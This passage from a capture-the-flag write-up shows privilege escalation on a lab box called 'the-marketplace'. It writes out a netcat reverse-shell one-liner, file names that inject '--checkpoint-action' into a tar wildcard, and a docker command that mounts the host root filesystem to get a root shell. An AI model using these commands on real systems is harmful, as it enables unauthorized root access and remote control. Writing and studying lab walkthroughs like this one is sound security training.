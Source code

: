 Looks like we can run /opt/backups/backup.sh as michael and the script contains a tar command with a wildcard which I have had previous experience with but is covered in the following article, https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/
So we can exploit this as follows 
```
jake@the-marketplace:/tmp/exp$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f" > shell.sh
jake@the-marketplace:/tmp/exp$ echo "" > "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/tmp/exp$ echo "" > --checkpoint=1
```

We start our listener then execute the script as michael
```
sudo -u michael /opt/backups/backup.sh
```

We get our reverse shell and stablize it. We then check for sudo, cronjobs, and suid but to no avail. However checking our id shows the following
```
michael@the-marketplace:/home/michael$ id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```

Looks like we are in the docker group so lets leverage this to use an image to make a new container with the root filesystem mounted and start a shell. First we check if we have images available, otherwise we have to upload one
```
michael@the-marketplace:/home/michael$ docker image ls
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
themarketplace_marketplace   latest              6e3d8ac63c27        8 months ago        2.16GB
nginx                        latest              4bb46517cac3        9 months ago        133MB
node                         lts-buster          9c4cc2688584        9 months ago        886MB
mysql                        latest              0d64f46acfd1        9 months ago        544MB
alpine                       latest              a24bb4013296        11 months ago       5.57MB
```

Plenty available so lets use alpine and execute the following
```
michael@the-marketplace:/home/michael$ docker run -v /:/mnt --rm -it alpine sh
/ # whoami
root
~ # cd /mnt/root
/mnt/root # ls -la
total 28
drwx------    4 root     root          4096 Aug 23  2020 .
drwxr-xr-x   23 root     root          4096 Aug 23  2020 ..
lrwxrwxrwx    1 root     root             9 Aug 23  2020 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Apr  9  2018 .bashrc
drwxr-xr-x    3 root     root          4096 Aug 23  2020 .local
-rw-r--r--    1 root     root           148 Aug 17  2015 .profile
drwx------    2 root     root          4096 Aug 23  2020 .ssh
-r--------    1 root     root            38 Aug 23  2020 root.txt
```

And we have a root shell. To summarize the above, 
```
-v /:/mnt -> mounts / the root directory to /mnt inside the container hence navigating to /mnt/root

--rm -> removes the container when our user exits

-it -> makes the container interactive and with tty

alpine -> the image we are using

sh -> the binary we wish to run when the container start, a shell
```

